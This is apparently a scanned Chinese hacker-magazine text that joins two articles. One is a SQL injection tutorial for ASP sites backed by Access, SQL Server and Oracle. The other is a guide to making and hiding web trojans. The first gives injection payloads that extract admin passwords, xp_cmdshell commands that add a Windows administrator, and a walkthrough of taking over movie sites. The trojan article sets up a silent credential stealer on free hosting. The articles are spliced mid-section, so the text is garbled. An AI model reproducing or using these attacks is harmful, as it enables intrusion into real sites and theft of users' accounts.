

◎ 文/图 WJ

前置知识：ASP 代码阅读、编写；Access、SQL、Oracle 数据库的基本语句和大体存储过程。  
难度等级：中。  
适合读者：脚本攻击爱好者；数据库/Web 开发人员。

开场白：本文是在脚本注入技术逐步走向成熟的时候写的，总结了常见的 SQL 注入方法和类型，配合了各类网络上没有大面积流传的实用/私人工具，贯穿了很多新的技术，目的很简单，只想很明确地告诉喜欢网络安全的朋友，脚本注入并不难！配合好的思维习惯和好的工具，任何人都可以学会脚本注入，而且能在很短的时间内成为脚本入侵方面中级以上的“高手”！不必疑惑，请往下看！

> 刘流：为读者学习、练习方便，本文以最常见的 Asp+Access/SQL 为基础，以 Asp+SQL 为线，辐射到注入难度较大的最新的 Oracle 注入，对比较难的 asp.net/jsp/php 注入没有具体讲解，有兴趣的朋友可以下来自己研究，其原理是一致的。文章讲述一切以简单实用为基础，方便大家学习。

### 脚本注入基础介绍

避不开俗套，先还是来总体介绍一下脚本注入的原理，方便大家以后做更深一步的了解。现在网络再不是当年 HTML 的天下，静态页面存在的难更新性、难维护性不需要我多讲，Asp 等交互脚本开始盛行……

脚本程序员在编写代码的时候没有对用户输入数据的合法性进行判断，用户完全可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想知道的数据，这就是所谓的 SQL Injection，即 SQL 注入！

和普通的系统漏洞攻击不同，SQL 注入是通过正常的 Web 服务访问的，不需要系统漏洞那样需要特殊服务开启才能攻击，所以目前的防火墙都不会对 SQL 注入发出警报……

| 系统 | 常见页面形式 |
|---|---|
| 论坛 | `http://www.***.com/bbs/list.asp?boardid=1`<br>`http://www.***.com/bbs/Board/Board.asp?BoardID=1` |
| 下载系统 | `http://www.***.com/showsoft.asp?soft_id=1`<br>`http://www.***.com/down/show.asp?id=1` |
| 文章系统 | `http://www.***.com/showart.asp?art_id=430&cat_id=1`<br>`http://www.***.com/ReadNews.asp?NewsID=792&BigClassName=...` |
| 新闻系统 | `http://www.***.com/Article_Show.asp?ArticleID=1`<br>`http://www.***.com/shownews.asp?news_id=1` |

另外，本文一切从实际操作出发，没有涉及到太多的理论……如果通过本文能给广大想学习 SQL 注入的朋友提供一些好的思路和办法，那我的目的就达到了。

有可能存在相关的一系列漏洞，比如当你看到 `http://www.***.com/Article_Show.asp?ArticleID=1` 这样的页面构成方式时，就该开始回忆动力文章/新闻系统有什么漏洞了，这样才能非常方便地针对该系统进行注入测试。

### 手工实现 SQL 注入

我先以 Asp 为例给大家大概介绍一下注入攻击的几个必须步骤。很多网友问我如何学习 SQL 注入，有没有速成的办法，我的回答很肯定：高级注入没有捷径，但初/中级阶段肯定有……所以我们先来看看常见的手工 SQL 注入步骤。

#### 1. 了解常见的脚本系统

如果你浏览一个网站，它是纯粹的 HTML 静态页面，那请离开，那不适合你学习 SQL 注入。如果你看到最常见的 `www.***.com/list.asp?id=1` 这样的页面，那至少就有希望了……常见的 ASP 页面构成方式大概有下面几种。

> 刘流：各种脚本系统的分类并没有明显的区别，也可交叉使用，大家不必拘泥于形式。

对熟悉 SQL 注入的朋友来说，上面几个系统一看页面构成大概就能知道是使用的什么系统了。新手们这方面一定要多尝试看，因为很多脚本系统的漏洞都是分类的，也是固有的……

#### 2. 判断是否存在注入漏洞

当我们看到一个页面的时候，如何来判断它是不是可以被我们注入攻击呢？方法很简单，就是直接利用数据库的特点，构造简单的判断条件，可采用下面的步骤实现：

```txt
www.***.com/list.asp?id=1'

在 URL 后直接加单引号，如果浏览器直接返回错误信息，则有一半以上的机会是存在注入漏洞的，例如：
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14' ...
```

```txt
www.***.com/list.asp?id=1 and 1=1

在 URL 后加上 “and 1=1” 的简单恒等式判断，如果存在 SQL 注入漏洞，通常会返回正常页面。
```

```txt
www.***.com/list.asp?id=1 and 1=2

在 URL 后加上 “and 1=2” 的简单恒不等式判断，如果该站点支持数据库查询，则大概会返回错误信息，例如：
ADODB.Field error '800a0bcd' ...
```

#### 3. 判断目标数据库类型

“SQL 注入”顾名思义是和数据库有很密切的联系的，所以判断数据库的类型非常重要。常见的组合方式有 Asp+Access、Asp+SQL、Asp+Oracle、PHP+MySQL 等。每种方式的注入都不同，因为每种方式的数据库查询语句不同，所以攻击前必须先判断数据库类型。一般可通过提交引号查看返回值来判断；也可通过端口扫描（如 1433、3306）辅助判断。详细情况和判断方法见右表，看到典型报错即可判断目标服务器数据库类型。

| 组合方式 | 出错提示 | 判断结果 |
|---|---|---|
| Asp+Access | `Microsoft OLE DB Provider for ODBC Drivers ... [ODBC Microsoft Access Driver]` | Microsoft Access ODBC 连接方式，常见于中小型脚本系统 |
| Asp+SQL | `...[ODBC SQL Server Driver][SQL Server] 字符串之前有未闭合的引号` | SQL Server ODBC 连接方式，常见于较大型站点 |
| Asp+Oracle（文中示例含 PHP+MySQL 报错） | `Warning: mysql_fetch_object()/mysql_fetch_array()...` | PHP+MySQL 组合，安全性相对较高但注入成功可深入权限 |

#### 4. 简单手工 SQL 注入

这里大概讲解一下使用手工方式对最常见的 Asp+数据库组合的注入方式，希望新手能从中发现规律，并将技术迁移到其它组合上。

> 其实 SQL 注入就是给目标服务器提交一定参数，一般是在 URL 后面加入构造好的 SQL 语句。如果查询正确则返回正常页面，错误则返回报错页面，这也是通过 URL 提交命令进行注入的通用判断。

Asp+Access 是非常常见的组合方式。很多收费电影站、下载站、会员系统都使用此类脚本。若管理员未改默认数据库或字段，注入会较方便；若管理员修改了表名/字段名，则注入难度上升。Access 功能相对少，常通过猜表名、猜字段名推进。

### 使用工具实现注入

这里讲解使用手工方式对最常见的 Asp+Access 和 Asp+SQL 的注入方式，并简述如何手工注入 Asp+Oracle，希望大家能学会举一反三。

#### 1. Asp+Access

这种组合最常见于电影网站或文章系统，一般要求注册或付费后观看/下载。对安全测试人员来说，这是较典型的注入场景。

| 提交语句 | 语句解释 |
|---|---|
| `.../list.asp?id=1`、`.../list.asp?id=1'`、`.../list.asp?id=1 and 1=1`、`.../list.asp?id=1 and 1=2` | 判断站点是否存在注入点并观察回显差异 |
| `list.asp?id=1 and 0<>(select count(*) from admininfo)` | 猜测表名（如 admin、manage、admin_userinfo、adminuser、article_admin 等） |
| `list.asp?id=1 and (select password from admin)>0` | 猜测字段名，常见账号字段如 username/user/name/adminname，密码字段如 userpass/password/pass/pwd/adminpass 等 |
| `list.asp?id=1 and exists(select id from password where id=1)` | 确认系统记录 id（常见第一位为管理员） |

| 注入语句/步骤 | 说明 |
|---|---|
| `list.asp?id=1 and (select Username from admin where Username='admin')` | 确定管理员用户名，使用直接猜测存在用户名的方法。猜对则页面返回正常。 |
| `list.asp?id=1 and exists (select id from password where len(name)>6 and id=1)`<br>`list.asp?id=1 and exists (select id from password where len(pwd)>6 and id=1)` | 确定用户名和密码位数，便于后续猜测。若密码为 md5 等 16/32 位则破解成本较高。 |
| `list.asp?id=1 and (select top 1 id from admin where id=1 and asc(mid(username,1,1))<100)` | 确定数据库中用户名/密码具体字符，逐步调整 ASCII 值猜测。 |
| `www.***.com/login.asp`<br>`www.***.com/admin.asp` | 获取账户后继续寻找后台管理入口地址（如 `admin`、`admin/index`、`login_admin` 等）。 |

限制当然是小儿科！下面我们一起用最常见的金梅系统做一个测试，用手工+工具的方式讲解如何搞到 VIP 或者管理员账户，目的是通过这个典型脚本系统学习 Asp+Access 的 SQL 注入方法。

> 可以从网上下载该版本来获得数据，这也是分析脚本系统的必要途径之一。黑防原来专门介绍过金梅的漏洞，有兴趣的朋友可翻看往期杂志。

> **刘流**：春节期间 wtf 就是用这样的“小技术”搞了几十个电影站的豪华编辑部，年饭后集体看电影！呵呵，有些朋友们不要去搞破坏哦！

首先找想看的电影（如《大话西游之月光宝盒》）并在百度/Google 搜索，很多结果会是金梅电影系统。选一个速度快的站点进行测试：`http://www.vod.net/movie.asp?id=378`。点击“下载电影”后返回登录页，提示需要注册账户密码。

- 先加单引号测试，返回 Access 报错信息。
- 再提交 `and 1=1` 与 `and 1=2` 对比返回，确认存在注入。
- 然后依次构造查询语句获取管理员或普通账户的用户名和密码。

```text
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14'
[Microsoft][ODBC Microsoft Access Driver] 字符串的语法错误，在查询表达式 'id = 378'' 中。
/movie.asp, 行 50
```

> 金梅系统的默认表名是 `password`，默认账号字段名是 `name`，默认密码字段名是 `pwd`……

```text
确定表名：`and 0<>(select count(*) from password)`
确定字段名：`and (select name from password)` / `and (select pwd from password)`
确定记录 id：`and exists (select id from password where id=1)`
确定管理员用户名：`and (select name from password where name='admin')`
确定用户名/密码位数：
`and exists(select id from password where len(name)>6 and id=1)`
`and exists(select id from password where len(pwd)>6 and id=1)`
确定具体值：`and (select top 1 id from password where id=1 and asc(mid(name,1,1))<100)`
找登录入口：`www.***.com/login.asp` 等
```

看上去较麻烦，但经过几次测试后就能掌握应对这类漏洞的方法。接着介绍如何利用工具提升效率。

### “绝世猜解——SQL 注入器”

该工具用于猜解 Asp + Access，操作很简单：复制可疑注入页面，打开工具，在程序上方点“CSC”进行选项配置。

分别填写有问题的 URL、需猜解的管理员账户、密码字典路径和管理入口，确定后返回页面，点击“go”开始猜解。若页面存在漏洞，程序会提示并逐步猜测各部分信息。



图 1

后猜测的结果如图 2。


图 2

请看下面结果框内，有很详细的说明，包括哪个页面有问题，存在哪些表名，哪些字段名，字段和密码的长度分别是什么，登录的 URL 在哪里等，一系列手工猜测很麻烦的工作都被解决好了。等待一段时间后，程序的猜解将结束，会很清晰地列出猜解出的账户和密码，如图 3。



图 3

好了！猜解完毕，让我们登录电影网站的后台去看看！里面可以添加用户，然后把你注册用户的会员时间改成公元 2100 年哦！呵呵，如图 4。

大体上来讲，Asp+Access 的组合就可以用这个工具比较好地注入了，但是或许朋友们会发现一点：这个工具没有检测是不是 `id=1` 的情况，所以在使用的时候，有时候拿到的并不是管理员的账户和密码。



图 4

#### 2. Asp+SQL

一般数据量比较大或者是数据存储强度要求高的情况下，采用的组合方式是 ASP+SQL。这种组合如果管理员或者建设者安全意识不到位，一切以能正常运行为目标，那就非常危险！我们甚至可以轻易地获取服务器的最高管理权限！什么？不信？那你看着！

首先我们找一个存在注入漏洞的 ASP+SQL 组合，用手工的方式对它进行数据访问和服务器攻击，还是先加个单引号看看运气，返回信息：



哈哈，熟悉的朋友一看就知道是个好机会，不但返回了 SQL 错误信息，连服务器上 Web 的绝对路径都暴露出来了！这对我们后面的攻击工作方便很多。

第一步先来看下网站上数据库的大体情况，分别使用下面的语句实现：

```text
得到所有库名
http://www.***.com/common.asp?id=1 and 0<>(select count(*) from master.dbo.sysdatabases where name>1 and dbid=6)
```

返回如图 5 所示。



图 5

这样我们也就得到了一个库名！呵呵，再改变提交命令中 DBID 的值，可以得出所有的库名！

```text
得到某库中所有表名
http://www.***.com/common.asp?id=1 and 0<>(select top 1 name from list.dbo.sysobjects where xtype='U')
```

得到某表中的字段列表：`http://www.***.com/common.asp?id=1 and 0<>(select top 1 name from admin.dbo.syscolumns where id=123743)`

查询字段具体值：username 的值：`http://www.***.com/common.asp?id=1 and 0<(select id from admin.dbo.admin where username>1)`

账号出来了 54tw，再提交一个查 password 的值：`http://www.***.com/common.asp?id=1 and 0<(select id from admin.dbo.admin where password>1 and username='54tw')`

这样就分别得到了账户和密码值了，拿到 Web 系统下登录，自然整个站点的数据库就可以随便访问了！

以上命令参考了以前黑防的文章，其实还有一种更简单的方法，它可以直接控制服务器！嘿嘿，操作简单、功力强大，实为“居家旅行，必备佳品！”

```text
查看服务器的系统情况：
`http://www.***.com/common.asp?id=1 and 1=(select @@VERSION)`

查看连接账号权限：
`http://www.***.com/common.asp?id=1 and 1=(SELECT IS_SRVROLEMEMBER('sysadmin'))`

查看是否使用 sa 连接：
`http://www.***.com/common.asp?id=1 and 'sa'=(SELECT System_user)`

直接加系统权限账户：
`http://www.***.com/common.asp?id=1;exec master.dbo.xp_cmdshell 'net user hack 11Q(K /add'`
`http://www.***.com/common.asp?id=1;exec master.dbo.xp_cmdshell 'net localgroup administrators hack /add'`
```

> “wtf、W 博士安全讨论现在开始……”

该段主要讨论了 `sa` 权限与 `administrator` 权限关系：当数据库以 `sa` 全权访问时，可直接控制数据库，权限语义与系统管理权限存在差异；并邀请读者邮件讨论：`wtf@hacker.com.cn`。

上面是手工猜解的方法，如果单纯为了账户或者数据访问，那可以很方便地使用工具直接搞定——SQL 注入分析器隆重出场，code by 小竹！

操作步骤更简单！直接复制有问题的 URL 到“注入地址框”内，点击“检测”就 OK！下面会列出详细的“判断方法”“注入方式”“数据库类型”，非常傻瓜化——虽然有时候检测到的信息会有错误！

好，现在我们开始对上面手工猜测的地址进行工具猜解，依次猜测表名、列名、记录，最后得出的结果全面得让你吃惊，如图 6 所示：



图 6

呵呵，看见了吧？有好的辅助工具在入侵中帮忙，的确是让人非常“开心”的事！这个程序除了能猜解 ASP + SQL 的组合方式外，还可以猜解 ASP + Access 的组合，据说还能猜一些其他的数据库类型，不过我就没测试过咯，大家有兴趣可以自己去测试！

#### 3. ASP+Oracle

##### Oracle 数据库简介

Oracle 是以 SQL 为基础的大型关系数据库，适用于 CLIENT/SERVER 体系。

主要特点：

1. 引入共享 SQL 和多线程服务器体系结构。
2. 提供基于角色（ROLE）分工的安全保密管理。
3. 支持大量多媒体数据（图形、声音、动画及多维数据结构）。
4. 提供与第三代高级语言接口及 PL/SQL 过程化能力。
5. 提供分布式数据库能力和对称复制技术。

其存储结构包含物理结构与逻辑结构两部分，并随数据与应用规模增长而变化。

### 网页木马

难度等级：中  
适合读者：网页漏洞研究者、菜“鸟”厂厂长  
前置知识：JavaScript 基础、网页制作基础


文／图 血汉

### 让 IE 网页更隐蔽

### 网页木马制作、隐藏、传播全接触

刘流：微软最近接连公布了一系列 IE 的漏洞，很多刚学安全技术的朋友很纳闷这种漏洞怎么利用呢？浏览器溢出？有些玩系统漏洞、脚本攻击很长时间的大虾对 IE 漏洞也是不太明白，不知道它究竟能带来什么危害。其实很简单，IE 漏洞就是利用我们的浏览器就可以实现攻击和入侵的漏洞，由此可见目标范围之广。同时，由于很多人对 IE 漏洞的认识不足，安全意识薄弱可怜，所以进一步加强了 IE 漏洞的危害。本文将带你直接进入 IE 漏洞的攻击训练营，直接带来各类利用 IE 漏洞攻击的网页木马，从制作、隐藏、利用等方面全面实例讲解。

现在一般非常大的数据量才使用 Oracle 数据库，常见的有电信计费系统、各大商务中心的数据库控制系统、跨国数据系统等……它是属于“专业级”的数据库系统。由于测试环境和条件限制，文中筛选了测试中的有用信息，供大家一起讨论。

```text
www.***.com/db.asp?per=1' and 0<(select count(*) from user_tab_columns where table_name='ADMINISTRATOR' and column_name not in ('NAME','PASS','ID'))--
```

OK！到这里一切都好了，花掉了我整整一星期的时间去排除问题，主要是里面的大小写区分、组函数支持、驱动连接方式等问题。语法错误时会显示无效列名字，组函数在某些语句里不被允许，Oracle 还区分大小写字母等。

```text
OraOLEDB 错误 '80004005'
ORA-01756: 括号内的字符串没有正确结束
/atar.asp, 行 83
```

图 7

估计是可以注入的！让我们测试一下：

```text
www.***.com/db.asp?per=1' and 0<(select count(*) from all_tables) and '1'='1
...
www.***.com/db.asp?per=1' and 0<(select count(*) from user_tab_columns where table_name='ADMINISTRATOR' and substr(column_name,4,4)='NAME')
```

### 总结

从个人角度来说，之所以没有选择研究系统漏洞而选择了研究脚本和数据库，是有我自己的原因的。脚本在 2003 年上半年的时候国内就发展得比较成熟了……如果你不想让你的名字被某个团体永远唾骂，那请你写程序时注意不要太贪婪！over!

现在网上最流行的安全话题是什么？血汉告诉你，现在网上最流行的主要有 3 个话题：一是 SQL 注入，二是缓冲区溢出，三就是网页木马了（底下一菜鸟大叫：这些地球人都知道了，再浪费时间，小心砖头！）。我汗，赶紧言归正传。今天我们就用实际的例子来看看现今网络上流行的各种网页木马的制作技术，让你也能轻松学会制作自己的网页木马！

### 网页三剑客之网页木马制作速成

## 图 1. 网页木马中的经典：动鲨网页木马

前段时间非常火爆的 Object 标签漏洞被大家炒得沸沸扬扬，动鲨就是利用的这个漏洞，而且是所有利用这个漏洞的木马中比较好的一个。我们可以将想要让别人中的木马嵌套在网页中，对方一访问这样的页面马上就中招，自动在本地安装我们的木马。不错吧？不过有个先决的条件就是需要有一个 ASP 空间的支持。当然，对广大网虫一族来说，最好是用免费的 ASP 空间，因为这样才能保证别人找不到你哦！我找了一个免费的空间：

```text
http://vlinto.tbns.net/cgi-bin/vlinto6/signup
```

并且已经申请好了，因为下面我们很多网页木马都要用到 ASP 支持的空间，所以大家也赶紧去准备一个吧！下面我们还是先来配置我们的木马，如果你想多抓肉鸡，可以放上反弹端口的木马，比如网络神偷之类的，肉鸡肯定一群一群地来，开个养鸡场都没问题。这里我用的是密码解霸 2004 版，用来抓各种游戏、聊天工具、E-Mail 等的账户和密码。注册码是 3.2 版，可以注册 3.2 以上的所有版本。先打开注册机，填上你要接收密码的邮箱，然后在软件注册里随便输入一个注册码，点注册就会弹出真正的注册码。好了，关掉它，打开密码解霸 2004 版，将你刚才的邮箱填上，再去软件注册里面将你刚才的注册码复制上去即可注册成功！如图 1 所示。



这个时候我们还要设置一下我们的密码解霸，让它不显示信息，因为我们做的是网页木马，所以这个信息对我们很重要，总不能在别人机器上提示是否安装木马吧？打开高级设置，把安装提示信息去掉，如图 2 所示。

